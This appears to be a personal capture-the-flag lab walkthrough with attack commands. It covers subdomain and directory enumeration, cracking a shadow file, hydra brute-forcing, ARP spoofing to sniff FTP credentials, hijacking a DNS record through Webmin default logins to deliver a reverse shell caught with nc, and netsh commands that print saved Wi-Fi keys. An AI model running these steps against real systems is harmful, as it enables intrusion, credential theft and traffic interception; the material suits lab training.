 1. dnsenum yolo.co.il
2. gobuster vhost -w /rockyou.txt -u yolo.co.il  
   ffuf -w  /usr/share/dirb/wordlists/common.txt -u http://admin.yolo.co.il/FUZZ    #(two ways for subdomain enumeration)
3. dirb  http://admin.yolo.co.il/ -w
4. http://admin.yolo.co.il/backup/ (the directory found in privious steps)
5. john shadow --format=crypt (inside backup directory which we download from the url in privious step ther's a shado file, and john crack the password from the hash there)
6. nmap -p- --min-rate 100 -sV 10.1.22.122 (10.1.0.122 is my yolo ip, i check what ports are open and found port 2222)
7. ssh dexter@10.1.22.122 -p 2222
put the password that john found "iloveyou1"

#####       found a flag!!!     #####

8. sudo hydra -l admin -P ./rockyou.txt -f admin.yolo.co.il -s 80 http-post-form "/?:username=^USER^&pswrd=^PASS^:F=<form action="">"    #brute forceing, we got result but it's not working.
9. hydra ssh syntax: hydra -l shlomke -P /usr/share/wordlists/rockyou.txt ssh://10.10.55.37 -V
10. hydra vnc syntax: hydra -s 5900 –P /usr/share/wordlists/rockyou.txt 192.168.0.6 vnc
11. ssh to admin with the found password fails
12. nmap -p0-65535 192.168.2.0/24 (scan dexter's network)
13. telnet 192.168.2.3 10000   #connect to the dns server (not sure what to to with it)
14. sudo dig axfr @192.168.2.3
15. curl http://192.168.2.3:10000
16. wget https://c4705d283d7e:10000 --no-check-certificate
17. wget https://c4705d283d7e//images/favicons/webmin/apple-touch-icon.png:10000 --no-check-certificate  (#download a file, not sure what to do with it.)
18. apt install dsniff  (For sniffing passwords from plaintext protocols like ftp, and for arpspoofing)
19. sudo arpspoof -i eth0 -t 192.168.2.254 192.168.2.8  #arp spoffing to tell the router that i'm the ftp server.
20. sudo tcpdump dst 192.168.2.8  #listen to the traffic to the ftp server. (which the router send to me now because of the spoofing)
21. we found username and password! ftp_yolo  CyberSec@12 
22. ftp ftp.yolo.co.il # and put the details of the user.
23. get flag2.txt   (download the file)

######       found another flag!!!     ######

22. nmap -p0-5000 10.1.22.122
23. scp -P 2222 ftp_server.py dexter@10.1.22.122:/home/dexter    (#ftp server file)
24. scp -P 2222 clock_update.sh dexter@10.1.22.122:/home/dexter  (#the reverse shell file)
### connect to webmin page in order to change the dns record so i can get the request from the client and send him the reverse shell file:
25. ssh -L 8082:192.168.2.3:10000 -p 2222 dexter@10.1.22.122 #create a proxy to connect to the dns server with port 10000
26. in the URL: https://localhost:8082
27. put the default logins to the webmin: user - root, password - password
28. change the record for the ftp server to our address 192.168.2.2
28. check that you made it right: dig ftp.yolo.co.il
29. run ftp_server.py
30. listen with nc: nc -l 32340
31. we got reverse shell on the user. ls - and ther's the 3rd flag.

##############################################################################################################																		more pentest stuff with nmap:
1. git clone https://github.com/vulnersCom/nmap-vulners.git
2. cd /usr/share/nmap/scripts/
3. nmap -sV --script nmap-vulners/ 151.101.131.5 
########################################################################################################
															usefull stuff
1. kill a process that use specific port: sudo kill -9 `sudo lsof -t -i:9001`
2. find process pid and name of service using it:			  sudo ss -lptn 'sport = :8001'
3. stop the service: sudo systemctl stop inetd.service


1. get access points windwos: Netsh wlan show profile
2. get the access point password: Netsh wlan show profile name ="tp link"  key=clear

#########################################################################################################




